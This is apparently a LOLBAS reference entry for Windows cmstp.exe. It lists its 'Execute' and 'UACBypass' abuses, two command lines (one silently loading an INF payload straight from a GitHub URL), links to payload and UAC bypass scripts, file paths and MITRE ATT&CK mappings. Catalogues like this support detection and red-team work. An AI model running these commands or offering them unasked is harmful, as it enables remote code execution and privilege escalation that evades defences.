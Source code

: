 ## Cmstp.exe

* Functions: Execute, UACBypass

```
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf     

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* Nick Tyrer - @NickTyrer

Code sample:
* [Cmstp.inf](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf)    
* [Cmstp_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp_calc.sct)

Resources:
* https://twitter.com/NickTyrer/status/958450014111633408    
* https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80     
* https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
* https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
* https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1 (UAC Bypass)
* https://github.com/hfiref0x/UACME

Full path:
```
C:\Windows\system32\cmstp.exe
C:\Windows\sysWOW64\cmstp.exe
```

Notes:



 MITRE ATT&CK:
* [CMSTP](https://attack.mitre.org/wiki/Technique/T1191)
* [Bypass User Account Control](https://attack.mitre.org/wiki/Technique/T1088)
